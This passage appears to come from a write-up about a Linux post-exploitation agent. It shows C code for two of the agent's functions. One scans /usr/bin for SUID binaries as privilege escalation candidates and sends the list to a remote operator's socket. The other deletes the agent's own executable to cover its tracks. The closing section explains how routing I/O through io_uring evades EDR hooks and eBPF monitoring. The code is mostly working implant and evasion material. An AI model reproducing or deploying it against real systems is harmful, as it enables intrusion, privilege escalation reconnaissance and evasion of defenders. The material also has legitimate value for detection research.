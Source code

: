 ```c
            pos += snprintf(out + pos, sizeof(out) - pos, "%s\n", path);
            if (pos > sizeof(out) - 100) break;
        }
        io_uring_cqe_seen(ring, cqe);
    }
    closedir(dir);
    send_all(ring, sockfd, out, pos);
}
```

This function scans the /usr/bin directory looking for binaries that have the SUID bit enabled, which could be privilege escalation vectors (privesc). For each binary, it does a statx via io_uring and checks the SUID flag. The result is formatted and sent to the client, listing possible privilege exploit candidates.

`cmd_selfdestruct`:

```c
void cmd_selfdestruct(struct io_uring *ring, int sockfd) {
    const char *msg = "Agent will self-destruct\n";
    send_all(ring, sockfd, msg, strlen(msg));

    char exe_path[512];
    ssize_t len = readlink("/proc/self/exe", exe_path, sizeof(exe_path)-1);
    if (len > 0) {
        exe_path[len] = '\0';

        struct io_uring_sqe *sqe = io_uring_get_sqe(ring);
        struct io_uring_cqe *cqe;

        io_uring_prep_unlinkat(sqe, AT_FDCWD, exe_path, 0);
        io_uring_submit(ring);
        io_uring_wait_cqe(ring, &cqe);
        if (cqe->res < 0) {
            char err[128];
            snprintf(err, sizeof(err), "Unlink failed: %s\n", strerror(-cqe->res));
            send_all(ring, sockfd, err, strlen(err));
        }
        io_uring_cqe_seen(ring, cqe);
    }
    exit(0);
}
```

## How Does the EDR Typically Fail Here?

A standard EDR intercepts:

- Calls to `open`
- Calls to `connect`
- Calls to `read` and `write`

This monitoring is usually done via hooks or eBPF. What this agent does is "bypass" these direct calls using `io_uring`. The kernel handles the I/O without exposing each syscall individually, generating far fewer events to be audited.
